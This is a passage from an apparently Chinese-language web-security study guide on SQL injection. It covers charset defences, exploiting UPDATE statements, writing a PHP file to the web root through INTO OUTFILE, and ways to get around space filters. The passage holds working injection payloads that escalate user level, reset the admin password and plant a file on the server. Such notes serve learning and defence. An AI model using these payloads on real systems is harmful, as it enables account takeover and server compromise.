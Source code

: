 统一数据库、Web应用、操作系统所使用的字符集，避免解析产生差异，最好都设置为UTF-8。
或对数据进行正确的转义，如mysql_real_escape_string+mysql_set_charset的使用。

### <span id="head18"> sql里面只有update怎么利用</span>

先理解这句 SQL

```
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='$id'
```

如果此 SQL 被修改成以下形式，就实现了注入

1：修改 homepage 值为`http://xxx.net', userlevel='3`

之后 SQL 语句变为

```
UPDATE user SET password='mypass', homepage='http://xxx.net', userlevel='3' WHERE id='$id'
```

userlevel 为用户级别

2:修改 password 值为`mypass)' WHERE username='admin'#`

之后 SQL 语句变为

```
UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)', homepage='$homepage' WHERE id='$id'
```

3：修改 id 值为`' OR username='admin'`
之后 SQL 语句变为

```
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'
```

## <span id="head19"> sql如何写shell/单引号被过滤怎么办</span>

写shell: root权限，GPC关闭，知道文件路径
outfile函数

```
`http://127.0.0.1:81/sqli.php?id=1 into outfile 'C:\\wamp64\\www\\phpinfo.php' FIELDS TERMINATED BY '<?php phpinfo(); ?>'`

`http://127.0.0.1:81/sqli.php?id=-1 union select 1,0x3c3f70687020706870696e666f28293b203f3e,3,4 into outfile 'C:\\wamp64\\www\\phpinfo.php'`
```

宽字节注入

### <span id="head20"> 代替空格的方法</span>

%0a、%0b、%a0 等
/**/ 等注释符
<>
